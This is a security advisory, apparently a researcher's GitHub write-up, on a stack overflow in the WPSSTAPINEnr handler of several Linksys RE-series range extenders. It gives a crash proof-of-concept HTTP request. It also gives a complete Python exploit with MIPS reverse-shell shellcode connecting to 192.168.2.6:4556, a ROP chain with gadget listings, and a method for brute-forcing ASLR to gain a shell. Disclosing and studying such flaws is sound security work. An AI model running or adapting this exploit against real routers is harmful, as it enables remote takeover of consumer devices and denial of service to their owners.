




# Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500


## Vulnerability description

We found an stack overflow vulnerability in Linksys router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `mod_form.so` binary:

In the router's `WPSSTAPINEnr` function, `ssid` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `ssid` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `ssid` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `ssid` as **aaaaa......** , and the router will crash, such as:

```http
POST /goform/WPSSTAPINEnr HTTP/1.1
Host: 192.168.2.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 2005
Origin: http://192.168.2.2
Connection: close
Referer: http://192.168.2.2/wireless/wireless_basic.shtml
Cookie: session_id=HLYQftkUYZRKAoAfRaruvqwButMk2g9H
Upgrade-Insecure-Requests: 1

ssid=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>

<div  align="center"></div>


## Exp

```http
import requests
from urllib import parse
from pwn import *
import struct

main_url = "http://192.168.2.2"

def login_success():
    global session_id
    url = main_url + "/goform/webLogin"
    headers = {'Referer': 'http://192.168.2.2/login.shtml'}
    data = {"password": "000007420004416800042431000070020001816200000656000070020001816200000656"}
    data = parse.urlencode(data)
    response = requests.post(url=url, headers=headers, data=data, allow_redirects=False)
    session_id = response.cookies.get_dict().get("session_id")
    if response is None:
        login_success()
    else:
        print(session_id)

def exp():
    shellcode2 = b'\xfa\xff\x0f\x24\x27\x78\xe0\x01\xfd\xff\xe4\x21\xfd'
    shellcode2 += b'\xff\xe5\x21\xff\xff\x06\x28\x57\x10\x02\x24\x0c\x01'
    shellcode2 += b'\x01\x01\xff\xff\xa2\xaf\xff\xff\xa4\x8f\xfd\xff\x0f'
    shellcode2 += b'\x34\x27\x78\xe0\x01\xe2\xff\xaf\xaf\x11\xcc\x0e\x3c'
    shellcode2 += b'\x11\xcc\xce\x35\xe4\xff\xae\xaf\x02\x06\x0e\x3c\xc0'
    shellcode2 += b'\xa8\xce\x35\xe6\xff\xae\xaf\xe2\xff\xa5\x27\xef\xff'
    shellcode2 += b'\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24\x0c\x01\x01'
    shellcode2 += b'\x01\xfd\xff\x11\x24\x27\x88\x20\x02\xff\xff\xa4\x8f'
    shellcode2 += b'\x21\x28\x20\x02\xdf\x0f\x02\x24\x0c\x01\x01\x01\xff'
    shellcode2 += b'\xff\x10\x24\xff\xff\x31\x22\xfa\xff\x30\x16\xff\xff'
    shellcode2 += b'\x06\x28\x62\x69\x0f\x3c\x2f\x2f\xef\x35\xec\xff\xaf'
    shellcode2 += b'\xaf\x73\x68\x0e\x3c\x6e\x2f\xce\x35\xf0\xff\xae\xaf'
    shellcode2 += b'\xf4\xff\xa0\xaf\xec\xff\xa4\x27\xf8\xff\xa4\xaf\xfc'
    shellcode2 += b'\xff\xa0\xaf\xf8\xff\xa5\x27\xab\x0f\x02\x24\x0c\x01'
    shellcode2 += b'\x01\x01'

    url = main_url + "/goform/WPSSTAPINEnr"
    fixed_payload = b'ssid='
    libc_base = 0x2af37000

    cmd = b'a' * (1408)
    cmd += p32(0x13748 + libc_base)
    cmd += b'a' * (32)
    cmd += p32(0x57F70 + libc_base)
    cmd += b'1111'
    cmd += p32(0x50790 + libc_base)
    cmd += b'3333'
    cmd += p32(0x4243C + libc_base)
    cmd += b'5555'
    cmd += b'6666'
    cmd += b'7777'
    cmd += b'8888'
    cmd += p32(0x59A0C + libc_base)
    cmd += b'a' * (52)
    cmd += p32(0x28EAC + libc_base)
    cmd += b'a' * (24)
    cmd += b'\x27\x70\xc0\x01' * (100) + shellcode2
    data = fixed_payload + cmd
    data = data.decode('latin1')
    headers = {'Cookie': 'session_id=' + session_id}
    response = requests.post(url=url, headers=headers, data=data, allow_redirects=False)

if __name__ == "__main__":
    login_success()
    exp()
```

A few points to explain in the above script:

①The shellcode is generated using msf, the connected **ip address is 192.168.2.6, and the port is 4556**

②The target device has enabled address randomization, we decided to **guess the base address of libuClibc**, because I found that the load address of its uclibc is **located at 0x2aaed000~2bxxx000**, we chose **0x2af37000**，

③Looping the above script in bash, lighttpd will continue to crash, and finally, after four hours, **we guess the base address of uclibc and get the shell permissions of the target device**

④Every time the lighttpd service crashes, the base address of its loaded library libuClibc will change. Since we observed that only the middle three bits of the load address changed, we averaged 4096 (0x1000) brute force guesses to get an interactive shell

⑤The rop chain we selected is as follows

```assembly
libuClibc offset address
0x13748
.text:00013748                 lw      $ra, 0x20+var_s24($sp)
.text:0001374C                 lw      $fp, 0x20+var_s20($sp)
.text:00013750                 lw      $s7, 0x20+var_s1C($sp)
.text:00013754                 lw      $s6, 0x20+var_s18($sp)
.text:00013758                 lw      $s5, 0x20+var_s14($sp)
.text:0001375C                 lw      $s4, 0x20+var_s10($sp)
.text:00013760                 lw      $s3, 0x20+var_sC($sp)
.text:00013764                 lw      $s2, 0x20+var_s8($sp)
.text:00013768                 lw      $s1, 0x20+var_s4($sp)
.text:0001376C                 lw      $s0, 0x20+var_s0($sp)
.text:00013770                 jr      $ra
.text:00013774                 addiu   $sp, 0x48

0x50790
.text:00050790                 move    $t9, $s0
.text:00050794                 jalr    $t9
.text:00050798                 move    $a2, $zero
.text:0005079C                 move    $v1, $v0
.text:000507A0                 lw      $ra, 0x2C+8($sp)
.text:000507A4                 move    $v0, $v1
.text:000507A8                 lw      $s1, 0x2C+4($sp)
.text:000507AC                 lw      $s0, 0x2C+0($sp)
.text:000507B0                 jr      $ra
.text:000507B4                 addiu   $sp, 0x38

0x59A0C
.text:00059A0C                 li      $a0, 1
.text:00059A10                 addiu   $a1, $sp, 0x88+var_14
.text:00059A14                 addiu   $a2, $sp, 0x88+var_64
.text:00059A18                 move    $t9, $s2
.text:00059A1C                 jalr    $t9 ;

0x57F70 sleep func_addr

0x28EAC
.text:00028EAC                 addiu   $a1, $sp, 0x24+var_C
.text:00028EB0                 move    $t9, $s4
.text:00028EB4                 jalr    $t9
.text:00028EB8                 li      $a2, 0xA

0x4243C
.text:0004243C                 move    $t9, $a1
.text:00042440                 move    $a1, $a2
.text:00042444                 jr      $t9
.text:00042448                 addiu   $a0, 8

stack layout
a * 1408
0x13748+libc				# ra0
a * 32
0x57F70+libc				# s0
1111						# s1
0x50790+libc				# s2
3333                		s3
0x4243C+libc                # s4
5555                 		s5
6666                		s6
7777                 		s7
8888                 		fp	
0x59A0C+libc                # ra1
a * 52
0x28EAC+libc				# ra2
a * 24
shellcode					# ra3
```


<div  align="center"></div>

**Subsequent vulnerability reports will no longer display Exp repeatedly. The Exp of buffer overflow is similar and can be executed by remote code.**

